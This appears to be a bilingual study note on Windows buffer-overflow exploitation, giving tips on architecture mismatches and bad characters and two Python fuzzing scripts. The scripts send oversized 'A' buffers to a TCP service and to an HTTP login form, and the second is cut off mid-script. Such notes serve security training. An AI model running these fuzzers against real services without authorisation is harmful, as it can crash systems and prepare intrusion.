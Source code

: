 3.  Make sure the architecture matches. It’s an easy thing to overlook but can make all the difference. 32-bit binaries will execute on 64-bit arch but not the other way around. Sometimes might even find that a payload “executes” and gets as far as opening a connection to your box but stops there because of an architecture mismatch.

4.  When you’re doing BoF exercises, they are tedious yes, but you also have a great deal of insight into what’s going on in memory because you’ve already got your debugger open. Try a stepping through your shellcode in memory and when you issue a command on your attacking machine, see if any op code gets malformed or converted in memory. I’m sure you’ve already heard it a million times but check for bad chars. I can’t tell you how many times I overlooked a badchar because I was seeing the connection come back to me, but nothing after that.

# windows bof
参考
https://www.cnblogs.com/wuerror/p/14969519.html

## 1-Fuzz 触发溢出
常用python脚本示例
```python
import socket

buffers = [b"A"]
ip = "xxx"
port = 9999
addr = (ip, port)

counter = 100
while len(buffers) <= 30: 
     buffers.append(b"A"*counter)
     counter = counter + 100


for buffer in buffers:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(addr)
    s.send(buffer)
    s.recv(4096)
    s.close()
    print("send  %s bytes" % len(buffer))
```

http fuzz脚本
```python
#!/usr/bin/python
import socket
import time
import sys

size = 100
while(size < 2000):
    try:
        print "\nSending evil buffer with %s bytes..."  % size
        inputBuffer = "A" * size
        content = "username=" + inputBuffer + "&password=A"
        buffer = "POST /login HTTP/1.1\r\n"
        buffer += "Host: 10.11.0.22\r\n"
        buffer += "User - Agent: Mozilla / 5.0 (X11; Linux_86_64; rv: 52.0) Gecko / 20100101Firefox / 52.0\r\n"
        buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
        buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Referer: http://10.11.0.22/login\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
```